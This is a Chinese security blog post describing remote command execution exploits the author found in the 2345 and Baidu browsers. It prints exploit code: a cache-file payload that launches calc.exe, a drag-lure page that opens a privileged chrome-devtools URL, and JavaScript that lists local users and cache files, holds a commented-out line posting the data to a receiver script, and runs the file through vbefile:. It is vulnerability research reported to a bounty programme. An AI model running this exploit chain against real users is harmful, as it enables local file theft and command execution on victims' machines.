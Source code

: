 ```yaml
---
layout:		post
title:		那些年我搞过的两个浏览器
subtitle:	弹个计算器
data:		2016-10-18
author:		"dogewatch"
header-img:	"img/home-bg-o.jpg"
tags:
    - web
    - 漏洞
---
```


> web狗也能弹计算器

# 前言

那是一个乌云还在的日子，某天正逛着逛着的时候，突然发现了这么一个洞：[QQ浏览器9本地文件读取&远程命令执行](http://wooyun.org/bugs/wooyun-2016-0176314.html)，一瞬间就像看到了一扇通往新世界的大门一样，原来web狗也能弹计算器！看完后就开始尝试自己去挖一些浏览器的漏洞，也挖出过两个浏览器的命令执行，这里做个小小的总结。

# 2345浏览器

虽然用浏览器来命令执行的方式有很多，但是作为一个web选手，所会的只是利用某些漏洞往本地写脚本命令，然后用`vbefile:`协议来执行这个脚本文件了。

## 背景漏洞

### 0x00

在某些版本的chrome浏览器中，存在这样一个漏洞。访问url：

`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://xxx.com/&remoteFrontend=true`

浏览器就会加载执行xxx.com下的`screencast_module.js`文件。而在这个文件中，就有权限调用DevToolsAPI。利用向外部容器发送`loadNetWorkResource`就可以实现读取本地文件和列目录。实例代码如下：

```javascript
var data="";
DevToolsAPI.streamWrite = function(id,chunk){
  data += chunk;
}
DevToolsAPI.sendMessageToEmbedder(
  "loadNetWorkResource",
  ["file:///C:/Users","",0],
  function(){
    console.log(data);
  }
);
```
![img](/img/post/calc-1.png)

## 构造exp

想要让浏览器去执行脚本命令，需要这么几步：

`向本地写脚本文件 -> 获取这个文件的绝对路径 -> 调用vbefile执行这个文件`

### 0x01

首先是写文件，这个简单，利用浏览器的cache机制，构造一定大小的页面，让浏览器把页面内容写入到cache目录中。cache目录在`chrome://version`中可以看到。这里2345浏览器的cache目录是`C:\Users\「你的用户名」\AppData\Local\2345Explorer\User Data\Default\Cache`，当页面大小在30k左右时就会生成一个独立的缓存文件了。

### 0x02

要执行这个文件，还需要解决的问题就是，获取这个文件的绝对路径值。可以看到绝对路径的大部分内容都是固定的，需要我们获取的就是用户名的值和写入的这个缓存文件的值。那么通过背景漏洞我们可以用列目录的方式来得到用户名和文件名。

但是这里又有了一个新的问题，就是由于浏览器对特权域的保护，使得`location.href`、`window.open`或者iframe加载等方式都不能打开`chrome-devtools`域下的url，而让用户自己去填这个url到地址栏里打开又太不靠谱了，所以我们需要有一个跨域的办法。

通常要跨到这种特权域有两种办法，一种是找到浏览器自带的某些特权api，这种api能访问指定的url地址，例如这个2345浏览器里的`chrome.ntp2345.prepareThumbnail`。还有一种办法就是利用该浏览器的跨域漏洞直接跨到`chrome-devtools`域。这两种办法各有自己的优缺点，第一种方式在找到这种api后，还需要找一个该api所在域的xss漏洞来执行这个api，而第二种方式则很难挖到。在这里我会采用第二种方式，利用一个所有的国产浏览器都存在且不重视的“小问题”来直接跨域访问。

### 0x03 所有国产浏览器都忽略的一个“小问题”

所有的国产浏览器都支持这样一个功能，就是鼠标点击一个链接后拖拽，则会在一个新标签页中打开这个url，而这个操作对url没有任何的限制，可以通过这种方式打开`file://`、`chrome://`、`chrome-devtools://`等url。chrome浏览器本身则不支持这种方式。所以这里我打算在链接上覆盖一张图片，通过诱使用户拖拽着张图片的方式来跨域访问目标url。

### 0x04 

进行到现在，能够写文件，能够得到文件的绝对路径，那么只需要在页面中加上一句js就能执行这个脚本里的命令了：

```````javascript
location.href='vbefile:../../../../../Users/'+uname+'/AppData/Local/2345Explorer/User Data/Default/Cache/'+fname+'" //E:jscript //B"';
```````

这里用到了二哥@gainover提供的一个小tips。因为缓存文件名没有.js后缀，所以需要带上`//E:jscript`来为其指定解析引擎，而`//B`是为了如果遇到错误，不让系统弹出错误提示框。

弹个计算器(因为交了补天了，所以直接在上面扒个图)

![img](/img/post/calc-2.png)

# 百度浏览器

利用方式跟上面那个差不多，所以就写到一篇博客里了。不同点在于，因为这个浏览器不存在devtools那个漏洞了，所以获取用户名就使用的是chajian.baidu.com域下的特权api`external.StartRequest`。

![img](/img/post/calc-4.jpeg)

至于跨到这个域下，则是使用了一个价值7500美刀的[uxss漏洞](https://bus.chromium.org/p/chromium/issues/detail?id=569496)。文件名那里的处理则换了种方式，因为缓存文件是按照一个固定格式生成的，而且数量有限，所以在不能列目录的情况下完全可以通过爆破文件名的方式来做到命令执行。

![img](/img/post/calc-3.jpeg)

# 部分利用代码

缓存文件

```html
var r=new ActiveXObject("WScript.shell");
			r.run("calc.exe");/*
AAAAAAAAAAAA.............足够多的任意字符
<script>location.href='http://127.0.0.1/2345/calc.htm';</script>*/
```

诱使用户拖拽图片页面

```html
<html>
<div style="background:url('https://o4qgwtf0t.qnssl.com/wp-content/uploads/2016/06/69485935.jpg');z-index: 999;width:140px; height:140px;">
<input readonly="readonly" style="width:140px;height:140px;border:none;background:none;border-style:none;text-indent:-9999px;outline:none;"
type="text" value="chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/2345/screencast_module.php?&remoteFrontend=true" onclick="this.select();" onmousedown="this.select();">
</html>
```

获取用户名和文件名的部分代码

```javascript
DevToolsAPI.sendMessageToEmbedder(
    "loadNetworkResource",
    [ "file:///C:/Users", "", 0 ],
    function (result) {
        //var x=new XMLHttpRequest();x.open("POST","http://127.0.0.1/2345/recv.php",true);x.send(data);
        r1 = /(?:\<script\>addRow\(\")(.+?)(?:\")/g;
        while(true){
            try{
                var uname = r1.exec(data)[1];
                if(uname != '..' && uname != 'All Users' && uname != 'Default User' && uname != 'Public' && uname != 'desktop.ini' && uname != 'Default'){
                    //console.log(uname);
                    var filename = "";
                    DevToolsAPI.streamWrite = function(id, chunk){
                        filename += chunk;
                    }
                    DevToolsAPI.sendMessageToEmbedder(
                    "loadNetworkResource",
                    ["file://C:/Users/"+uname+"/AppData/Local/2345Explorer/User Data/Default/Cache", "", 0],
                    function(){
                        r2 = /(?:\<script\>addRow\(\")(.+?)(?:\".+,0,\"29\.4 kB\")/g;
                        r3 = /(.+?)(?:\",)/g;
                        while(true){
                            try{
                                var fname = r2.exec(filename)[1];
                                location.href='vbefile:../../../../../Users/'+uname+'/AppData/Local/2345Explorer/User Data/Default/Cache/'+fname+'" //E:jscript //B"';
                            }catch(e){break;}
                        }
                    }
                    );
                    break;
                }
                //console.log(r1.exec(data)[1]);
            } catch (e){break;}
        }
    }
);
```

# 后记

挖这几个浏览器的洞是我目前见到的奖金最多的洞了，比审php高多了T_T。然而感觉还只是理解了皮毛，比如说那个uxss就没能理解原理。但愿有一天也能挖出chrome的洞，去挣挣美刀。